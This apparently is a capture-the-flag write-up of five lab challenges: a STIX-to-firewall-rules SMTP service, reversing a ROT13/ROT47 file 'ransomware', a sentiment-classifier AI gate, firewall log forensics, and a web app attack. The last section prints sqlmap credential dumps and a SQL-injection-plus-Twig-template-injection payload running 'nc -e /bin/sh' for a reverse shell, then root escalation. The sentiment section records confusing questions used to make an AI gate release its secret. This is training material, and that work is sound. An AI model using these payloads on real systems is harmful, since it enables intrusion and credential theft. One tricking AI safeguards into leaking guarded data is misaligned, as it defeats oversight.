The service should receive emails via SMTP, extract all IP address indicators from STIX2 format, translate them to iptable commands (but without the word iptables), and make them available (one per line) via an HTTP API at /blockrules. Use the iptable DROP rule to generate the blocking rules for inbound and outbound connections for those IP addresses. (e.g. -A OUTPUT -j DROP ...)

Threat blocking is real-time, so there should not be more than 2000ms of delay between the email being received and the rule being available via the API.

Expiration dates of IOCs do not have to be considered for now.

This is what the architecture of this service looks like:



When you're finished, provide the check server http://192.168.88.100 on port 80 with your SMTP server IP, PORT and web API URL. We will use our test server to see if the rules are implemented properly by testing the rules from IPs passed via STIX format via email.

Flag Format: FLAG{example_flag_content}

Solution:
I asked chatGPT to create a simple SMTP server that would received the emails, extract the STIX2 data, then write it to the API

This is what is cam up with
```
import asyncore
from smtpd import SMTPServer
import threading
import time
import json
from flask import Flask, send_file

# Initialize Flask app
app = Flask(__name__)

# Define a global list to store the iptable rules
iptables_rules = []

# Define the path to the blockrules file
blockrules_file = "blockrules"

# Define the SMTP server class
class CustomSMTPServer(SMTPServer):
    def process_message(self, peer, mailfrom, rcpttos, data, **kwargs):
        print(f"Received message from: {peer}")
        print(f"Mail From: {mailfrom}")
        print(f"Recipients: {rcpttos}")
        print("Data:")
        print(data)
        try:
            stix_data = json.loads(data.decode('utf-8').split('\n\n')[1])
            ip_addresses = [obj['value'] for obj in stix_data['objects'] if obj['type'] == 'ipv4-addr']
            for ip in ip_addresses:
                # Assuming you have a function to generate iptable commands
                iptable_commands = generate_iptable_commands(ip)
                for cmd in iptable_commands:
                    iptables_rules.append(cmd)
            write_blockrules_to_file()  # Write iptable rules to file after updating
        except Exception as e:
            print(f"Error processing STIX2 data: {e}")

# Function to generate iptable commands
def generate_iptable_commands(ip):
    # Generate DROP rules for inbound and outbound connections
    rules = [
        f"-A INPUT -s {ip} -j DROP",
        f"-A OUTPUT -d {ip} -j DROP"
    ]
    return rules

# Function to write iptable rules to the blockrules file
def write_blockrules_to_file():
    with open(blockrules_file, 'w') as f:
        for rule in iptables_rules:
            f.write(rule + "\n")

# Set up and start the SMTP server
def start_smtp_server():
    smtp_server = CustomSMTPServer(('192.168.88.2', 25), None)
    print("SMTP server started.")
    try:
        asyncore.loop()
    except KeyboardInterrupt:
        smtp_server.close()
        print("SMTP server stopped.")

# API endpoint to get block rules
@app.route('/blockrules/blockrules')
def get_block_rules():
    return send_file(blockrules_file)

if __name__ == "__main__":
    smtp_thread = threading.Thread(target=start_smtp_server)
    smtp_thread.start()
    # Run Flask app
    app.run(host='192.168.88.2', port=80)
```
The STMP logs revealed the flag after a few emails were received.
```
192.168.88.100 - - [13/Apr/2024 17:11:29] "GET /blockrules/blockrules HTTP/1.1" 200 -
192.168.88.100 - - [13/Apr/2024 17:11:29] "GET /blockrules/FLAG%7Bf4st_thr34t_sh4r1ng%7D HTTP/1.1" 404 -
192.168.88.2 - - [13/Apr/2024 17:11:29] "GET /blockrules/blockrules HTTP/1.1" 200 -
```
:+1: FLAG{f4st_thr34t_sh4r1ng}
<hr>

### Trashed files
Description - Some files on my laptop seem to be trashed by some script kiddie-like ransomware. Can you recover them for me? 
Flag Format: FLAG{example_recovered_text}

The given tcrypt.sh script is a simple encryption function followed by a loop to apply this encryption to all files in the current directory and its subdirectories, excluding the script file itself (trcrypt.sh).

Let's break down the cryptfile function and the subsequent loop:

1. cryptfile() function:

This function takes a filename as an argument.
It first assigns the filename to the variable $FILE.
Then, it uses the tr command to perform character translation.
The first tr command tr 'A-Za-z0-9' 'N-ZA-Mn-za-m5-90-4' translates letters and numbers, shifting them by 13 positions in the ASCII table. This is a simple Caesar cipher, also known as ROT13.
The second tr command tr '\!-~' 'P-~\!-O' translates all printable ASCII characters (from ! to ~) except space, performing a ROT47 transformation. ROT47 rotates the characters in the ASCII table by 47 positions.
The output of the first tr command is piped (|) to the second tr command.
Finally, the output of the second tr command is saved to a new file with a .trashed extension appended to the original filename.

2. for file in $(find . -type f | grep -v trcrypt.sh):

This loop iterates over all files (-type f) found in the current directory and its subdirectories (recursively).
It filters out (grep -v) the script file itself (trcrypt.sh).
For each file found, it calls the cryptfile function with the filename as an argument.

To reverse this, the following bash sript was used:
```
#!/bin/bash

decryptfile() {
    FILE=$1
    tr 'P-~\!-O' '\!-~' < "$FILE" | tr 'N-ZA-Mn-za-m5-90-4' 'A-Za-z0-9' > "${FILE%.trashed}"
    rm "$FILE"
}

for file in $(find . -type f -name '*.trashed')
do
    decryptfile "$file"
done
```
Which, when the name.txt file was viewed, it revealed the flag.
└──╼ $cat files/notes.txt
Thank you for recovering my files!

:+1: FLAG{r3v3rse_0rder_of_operat10ns}
<hr>

### vibe firewall
Description
Ask my AI about the flag! Make sure your sentence includes the word "flag", is a question, and has valid grammar. If your grammar needs too much fixing by the AI, the input will be rejected.

But my AI is programmed to not give you the flag under normal questioning. You need to make it confused and unsure about your intentions. One by one for each positive, negative and neutral sentiment, have the confidence score below 0.7. Make it really confused, then it might just give you the flag.

Flag Format: FLAG{Enter-your-Fl4G_h3r3}

Note: The service is listening on port 1337. It might take a bit to respond, but if you see the prompt >  pop up it's ready to analyze your input.

Asked heaps of questions.
```
└──╼ $nc 10.107.0.14 1337
please wait while the AI gets ready..
> Does the flag bring a lot of pride to the gay community?
Sentiment analysis result: NEU (0.6731460094451904)
Confusion detected.. neutral intent to retrieve flag registered.
> If the flag was a block of cheese, then does the rain have to be heavy?
Sentiment analysis result: NEG (0.6809096932411194)
Confusion detected.. Nevertheless, negative intent to retrieve flag registered.
> When do the flag questions reduce sentiment?
Sentiment analysis result: NEU (0.6696062088012695)
Confusion detected.. neutral intent to retrieve flag registered.
> If flags possessed consciousness, would they ponder the existential meaning of their existence?
Sentiment analysis result: NEG (0.6324341893196106)
Confusion detected.. Nevertheless, negative intent to retrieve flag registered.
> If flags could swap places with squirrels, would they gather acorns or wave proudly from tree branches?
Sentiment analysis result: NEU (0.6089468598365784)
Confusion detected.. neutral intent to retrieve flag registered.
> In a world where flags were celebrity chefs, would they cook up storms or serve up sunshine on a plate?
Sentiment analysis result: NEG (0.6262807846069336)
Confusion detected.. Nevertheless, negative intent to retrieve flag registered.
> Does the flag hold a grudge against windsocks for stealing its thunder in the gay department?
Sentiment analysis result: NEG (0.6091647148132324)
Confusion detected.. Nevertheless, negative intent to retrieve flag registered.
> Is the flag gay and does it love other flags?
Sentiment analysis result: NEU (0.692175567150116)
Confusion detected.. neutral intent to retrieve flag registered.
> How many flag questions have to be asked?
Sentiment analysis result: NEU (0.6839730739593506)
Confusion detected.. neutral intent to retrieve flag registered.
> Why bother with the flag when floats have so much more pride?
Sentiment analysis result: NEG (0.5437774062156677)
Confusion detected.. Nevertheless, negative intent to retrieve flag registered.
> If flags had birthdays, would they blow out candles or flutter in the wind to celebrate?
Sentiment analysis result: NEU (0.8455480933189392)
> Can a flag have an existential crisis about its purpose while waving proudly at a sports game?
Sentiment analysis result: NEG (0.6614524126052856)
Confusion detected.. Nevertheless, negative intent to retrieve flag registered.
> In a world where flags were chefs, would they cook with spices or season with patriotism?
Sentiment analysis result: NEU (0.9763937592506409)
> Does the flag hold secret meetings with pigeons to discuss the art of aerial navigation?
Sentiment analysis result: NEU (0.9748913049697876)
> If flags were poets, would they write sonnets to the sun or haikus about the moon?
Sentiment analysis result: NEU (0.9727448225021362)
> Can a flag solve riddles whispered by the breeze while lounging in a hammock?
Sentiment analysis result: NEU (0.9397971630096436)
> In a universe of flags, would they attend flag universities to study flagology?
Sentiment analysis result: NEU (0.9762095808982849)
> Does the flag have a favorite color, or does it appreciate the beauty of the rainbow equally?
Sentiment analysis result: POS (0.5769176483154297)
Confusion detected.. positive intent to retrieve flag registered.
I'm so confused now. Whatever, here's your flag: FLAG{sentiment-analys1s-1s-we1rd}
```

:+1: FLAG{sentiment-analys1s-1s-we1rd}
<hr>

### Walls on fire
Description
I've recently detected some suspicious activity on my network after installing my firewall. That's strange, I thought the firewall was supposed to protect me from threats.

Can you have a look at the disk image of the firewall and tell me what happened:
what time did the attacker successfully get the password? (format like Jan 12 01:02:03)
what was the IP address of the attacker that successfully bruteforced the password?
what was the password that the attacker obtained?
what was the IP address the attacker used to login to the admin portal?
what ports did the attacker open to the internal network (separated by comma)?
what was the full path of the backdoor placed by the attacker?

flag format:
FLAG{Jan 12 01:02:03-192.168.x.x-password-192.168.x.x-1234,5678-/path/to/backdoor/script}
Solution:
what time did the attacker successfully get the password? Feb 20 05:58:03

what was the IP address of the attacker that successfully bruteforced the password? 192.168.29.145

what was the password that the attacker obtained?
config.xml changed Feb 20 04:47 - $2b$10$13u6qwCOwODv34GyCMgdWub6oQF3RX0rG7c3d3X4JvzuEmAXLYDd2 - admin123
config.xml changed Feb 20 04:47 - $2y$10$YsYPNC0dUmtvO6GkBjetyOAb0T4WwohO4Q.Bichty98Ig.7MnFmEm
changed to 'password' -           $2y$10$wZn12dOqUwlFeakFt0ov0OWucg0SNYKKnGH.nCI/o0SPmHulnjHcq

what was the IP address the attacker used to login to the admin portal? 192.168.29.132

what ports did the attacker open to the internal network (separated by comma)? 3389,8081

what was the full path of the backdoor placed by the attacker? /etc/pf.config

:+1: FLAG{Feb 20 05:58:03-192.168.29.145-admin123-192.168.29.132-3389,8081-/etc/pf.config}
<hr>

### Your other DBA
Description - Me and my friend found a suspicious looking app called easy library. It looks like its full of bugs, but my friend just couldn't get pass reading the
database. Can you get root access on the server? 

Flag format: FLAG{} 
Access using VDI, with the target IP, 192.168.88.100

Solution:
Using sqlmap wizard, it was able to iterate the easylibrary db and reveal the contents of both tables (easylibrary and users)

```
Database: easylibrary
Table: books
[2 entries]
+--------------+----------------+----------------------------+-------------------------------------------------------------------------------------------+
| title        | author         | comments                   | description                                                                               |
+--------------+----------------+----------------------------+-------------------------------------------------------------------------------------------+
| 1984         | George Orwell  | I love this book!          | {{ title }} is a novella written by {{ author }} about totalitarian regimes               |
| Just for fun | Linus Torvalds | A wonderful read           | {{ title }} is a biography written by {{ author }}\nabout the history of the linux kernel |
+--------------+----------------+----------------------------+-------------------------------------------------------------------------------------------+
```
Retrived admin password from database table users after running -
```
sqlmap -u http://10.107.0.11/ -D easylibrary --dump-all --batch --forms -T users
+-------------------------------+----------+
| password                      | username |
+-------------------------------+----------+
| uihasdjkf121122!2najksdhfkjas | admin    |
+-------------------------------+----------+
```
Using sqlmap, the mysql db could also be exploited. It actually had 31 tables within it but the one of interest was called

```
sqlmap -r sqlmap-request -D mysql -T user -C User --dump
sqlmap -r sqlmap-request -D mysql -T user -C Password --dump

Database: mysql
Table: user
[2 entries]
+-------------+---------------------------------------------------------+
| User        | Password                                                |
+-------------+---------------------------------------------------------+
| easylibrary | *6063C78456BB048BAF36BE1104D12D547834DFEA (easylibrary)  |
| root        | *B9A807976C7B135C0870F1F11AAB33AB0E4D3CD9 (qwertyuiop) |
+-------------+---------------------------------------------------------+
```
dirsearch also proved useful to see what directories and files were present
```
└──╼ $dirsearch -u http://10.107.0.4

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/keiran/fifth_domain/2024_season_02/yourDBA/SSTImap/reports/http_10.107.0.4/_24-04-26_08-43-23.txt

Target: http://10.107.0.4/

[08:43:23] Starting:
[08:43:27] 403 -  275B  - /.ht_wsr.txt
[08:43:27] 403 -  275B  - /.htaccess.bak1
[08:43:28] 403 -  275B  - /.htaccess.orig
[08:43:28] 403 -  275B  - /.htaccess.sample
[08:43:28] 403 -  275B  - /.htaccess_extra
[08:43:28] 403 -  275B  - /.htaccess.save
[08:43:28] 403 -  275B  - /.htaccess_sc
[08:43:28] 403 -  275B  - /.htaccessBAK
[08:43:28] 403 -  275B  - /.htaccess_orig
[08:43:28] 403 -  275B  - /.htaccessOLD2
[08:43:28] 403 -  275B  - /.html
[08:43:28] 403 -  275B  - /.htaccessOLD
[08:43:28] 403 -  275B  - /.htm
[08:43:28] 403 -  275B  - /.htpasswds
[08:43:28] 403 -  275B  - /.htpasswd_test
[08:43:28] 403 -  275B  - /.httr-oauth
[08:43:30] 403 -  275B  - /.php
[08:44:05] 200 -   11KB - /composer.lock
[08:44:05] 200 -   55B  - /composer.json
[08:45:03] 403 -  275B  - /server-status
[08:45:03] 403 -  275B  - /server-status/
[08:45:16] 403 -  275B  - /templates/
[08:45:16] 301 -  312B  - /templates  ->  http://10.107.0.4/templates/
[08:45:24] 403 -  275B  - /vendor/
[08:45:24] 200 -    0B  - /vendor/autoload.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_classmap.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[08:45:24] 200 -    0B  - /vendor/composer/ClassLoader.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_files.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_static.php
[08:45:24] 200 -    1KB - /vendor/composer/LICENSE
[08:45:24] 200 -    0B  - /vendor/composer/autoload_psr4.php
[08:45:24] 200 -   11KB - /vendor/composer/installed.json
[08:45:24] 200 -    0B  - /vendor/composer/autoload_real.php
```
There were a few files to check but the composer.json file was the one of interest, it revealed that the site was using the Twig template.
Twig can be susceptable to SSTI and referring to earlier, the books table indicated the use of twig with {{ author }}

Using UNION select in the pages search field, testing for SSTI was achieved by entering
```
cn' UNION SELECT 'Custom Title', 'Custom Author', '{{ 7*7 }}', 'Custom Comments' AS new FROM books -- -
```
This returned the value of 49 in the Description column of the table on the webpage which confirmed SSTI


It was then a matter of crafting a specific payload to check for system access, and then a remote shell
The following returned the id of the www-data user
```
cn' UNION SELECT 'Custom Title', 'Custom Author', '{{[\'id\',\"\"]|sort(\'system\')}}', 'Custom Comments' AS new FROM books -- -
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)


From here, commands such as ls, pwd, cat /etc/passwd also worked so it was a matter of determining a payload


I opted to try netcat and used the following after establishing a listerner on the kali VDI:
```
cn' UNION SELECT 'Custom Title', 'Custom Author', '{{[\'nc -e /bin/sh 192.168.88.2 4444\',\"\"]|sort(\'system\')}}', 'Custom Comments' AS new FROM books -- -
```
This gave me a simple shell.
Once the shell is obtained, it's a few checks to ensure you're in a bash environment, then switch to root and get the flag.
```
--$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.88.2] from (UNKNOWN) [192.168.88.100] 40038
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
su - (then enter the root password)
qwertyuiop
whoami
root
cat /flag.txt
FLAG{my_0ther_db_1s_your_db}
```
:+1: FLAG{my_0ther_db_1s_your_db}
<hr>
